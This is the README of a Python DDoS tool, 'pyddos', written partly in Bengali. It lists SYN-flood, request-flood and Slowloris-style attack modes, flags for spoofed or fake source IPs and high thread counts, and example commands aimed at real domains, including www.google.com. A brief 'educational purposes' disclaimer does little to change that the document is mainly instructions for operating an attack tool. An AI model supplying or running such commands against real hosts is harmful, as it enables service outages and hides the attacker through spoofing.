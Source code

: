 # pyddos.py

# NEON | ফাক দা ওয়েব
* এই স্ক্রিপ্টে 3 ধরনের DDos ​​আক্রমণ রয়েছে : SYNFLOOD | REQUEST | Pyslow
* স্ক্রিপ্টে পাইসলো অ্যাটাক টাইপ আছে যা Slowloris অ্যাটাকের মতো

# Note
* আমি এই স্ক্রিপ্টটি শিক্ষাগত উদ্দেশ্যে লিখেছি, ধ্বংসাত্মক উদ্দেশ্যে এবং বেআইনি কাজের জন্য নয়, তাই আমি এর জন্য দায়ী থাকব না


# Requires module
* termcolor
* colorama



# Usage
       
 .-----------------. .----------------.  .----------------.  .-----------------.  .----------------.  .----------------. 
| .--------------. || .--------------. || .--------------. || .--------------. | | .--------------. || .--------------. |
| | ____  _____  | || |  _________   | || |     ____     | || | ____  _____  | | | | ____   ____  | || |     __       | |
| ||_   \|_   _| | || | |_   ___  |  | || |   .'    `.   | || ||_   \|_   _| | | | ||_  _| |_  _| | || |    /  |      | |
| |  |   \ | |   | || |   | |_  \_|  | || |  /  .--.  \  | || |  |   \ | |   | | | |  \ \   / /   | || |    `| |      | |
| |  | |\ \| |   | || |   |  _|  _   | || |  | |    | |  | || |  | |\ \| |   | | | |   \ \ / /    | || |     | |      | |
| | _| |_\   |_  | || |  _| |___/ |  | || |  \  `--'  /  | || | _| |_\   |_  | | | |    \ ' /     | || |    _| |_     | |
| ||_____|\____| | || | |_________|  | || |   `.____.'   | || ||_____|\____| | | | |     \_/      | || |   |_____|    | |
| |              | || |              | || |              | || |              | | | |              | || |              | |
| '--------------' || '--------------' || '--------------' || '--------------' | | '--------------' || '--------------' |
 '----------------'  '----------------'  '----------------'  '----------------'   '----------------'  '----------------'  
                                                               
        DDos Python Script
         Author: Truthfuly                                              
         Github: https://github.com/Truthfuly                       
        Version: 1.0 

    usage: ./pyddos -t [target] -p [port] -t [number threads]

    optional arguments:
    -h, --help       show this help message and exit
    -v, --version    show program's version number and exit

    options:

    -d <ip|domain>   Specify your target such an ip or domain name
    -t <float>       Set timeout for socket
    -T <int>         Set threads number for connection (default = 1000)
    -p <int>         Specify port target (default = 80) |Only required with pyslow attack|
    -s <int>         Set sleep time for reconnection
    -i <ip address>  Specify spoofed ip unless use fake ip
    -Request         Enable request target
    -Synflood        Enable synflood attack
    -Pyslow          Enable pyslow attack
    --fakeip         Option to create fake ip if not specify spoofed ip

    Example:
         ./pyddos -d www.example.com -p 80 -T 2000 -Pyslow
        ./pyddos -d www.domain.com -s 100 -Request
        ./pyddos -d www.google.com -Synflood -T 5000 -t 10.0

